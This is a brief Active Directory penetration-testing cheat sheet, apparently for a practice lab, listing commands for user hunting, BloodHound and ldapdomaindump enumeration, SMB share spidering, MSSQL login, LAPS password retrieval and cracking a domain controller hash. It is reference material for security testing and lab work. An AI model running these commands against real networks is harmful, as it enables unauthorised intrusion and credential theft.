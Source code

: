 ### User Hunting
```
Find-LocalAdminAccess -Verbose
Find-WMILocalAdminAccess.ps1 -ComputerFile <name>
Invoke-EnumerateLocalAdmin -Verbose
Invoke-UserHunter
Invoke-userHunter -GroupName “RDPUsers”
Invoke-UserHunter -CheckAccess
Invoke-UserHunter -Stealth
```

## Automated Enumeration using Bloodhound
- Sharphound on diff users and computers at different time

### Bloodhound from Kali
```
bloodhound-python -u jon.snow -p iknownothing -c all -d north.sevenkingdoms.local --zip -ns <dc ip>
```

### Bloodhound from Windows
```
SharpHound.exe --CollectionMethods All --ZipFileName output.zip (OR)
. .\sharpHound.PS1
Invoke-BloodHound -CollectionMethod All -zipFileName loot.zip
```

## Automated Enumeration using ldapdomaindump
```
sudo ldapdomaindump ldap://<dc ip> -u '<domain>\<username>' -p <password> 
sudo ldapdomaindump ldaps://<dc ip> -u '<domain>\<username>' -p <password> 
```

## SMB Shares
```
crackmapexec smb <ip> -u <user> -p <pass> -M spider_plus
cat /tmp/cme_spider_plus/<ip.json file> | jq '. | map_values(keys)'
```

## SQL Port
```
impacket-mssqlclient -windows-auth <domain>/<user>:<pass>@<ip>
```

## LAPS
```
netexec ldap 192.168.56.11 -u 'jon.snow' -p 'iknownothing' -M laps
```

## Crack DC2 from Secretsdump
```
john DC2hash --wordlist=/usr/share/wordlists/rockyou.txt
```
